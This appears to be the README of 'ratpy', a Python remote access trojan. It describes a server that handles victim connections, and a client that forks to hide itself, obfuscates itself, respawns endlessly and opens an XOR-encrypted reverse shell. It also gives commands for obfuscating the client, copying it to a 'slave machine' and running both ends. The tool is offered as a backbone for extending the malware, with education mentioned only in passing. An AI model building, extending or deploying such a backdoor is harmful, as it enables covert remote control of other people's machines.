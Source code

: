 # ratpy
### another snake friendly rat - simple backdoor without tools
### _________________________________________________________________________
<p align="left">
<img src="imgs/ratpy.png" width="240" height="160">
</p>
### _________________________________________________________________________

## Architecture
````
This is a backbone build that can be extended for specific uses
Start server listening up to 20 connections with a simple menu interface in the terminal
Before deploying and starting client change the port and server ip address for your server 
Client will background by forking twice and killing parents and trying to obfuscate itself (can be improved for your choice of system)
If client fails it will respawn forever which might crash the system after a while but wont start on reboot (can be added)
Encryption is done with simple xor of bytearray of data with the key
Which are verified with a TCP like handshake channel or the exchange will be restarted
Once connection is estabilished we have a default set of commands, which can be expanded, to perform basic machine tasks and drop a shell
````

````
The proggie has plenty of debug functions to help understand and debug it, the main utility of this project is
provide a prototype to build something more interesting in a different language, add some tools easily to experiement or get something quickly
tested and educational purposes
````
### _________________________________________________________________________
````
### Master
* interface - server menu and server cli scripting
* threadpool - running paralel code to serve menu while waiting and handling connections set to up to 20 by default
* tools - backdoor :: encrypted reverse shell 30s RAT connection with respawn and client-side
* utils - encryption methods and connection methods
> cd master && python3 main.py <server_ip_addr> <rat_port> <shell_port>
````
### _________________________________________________________________________
````
### Slave
* interface - client cli scripting
* tools - RAT client backdoor
* utils - encryption methods and connection methods
> server :: python3 obfuscator.py && <copy ratpy.py to slave machine>
> python3 ratpy.py <server_ip_addr> <rat_port>
````
### _________________________________________________________________________

## Adding extensions
* this is just a backbone which can be expanded by adding more tools to the interface and tools dir
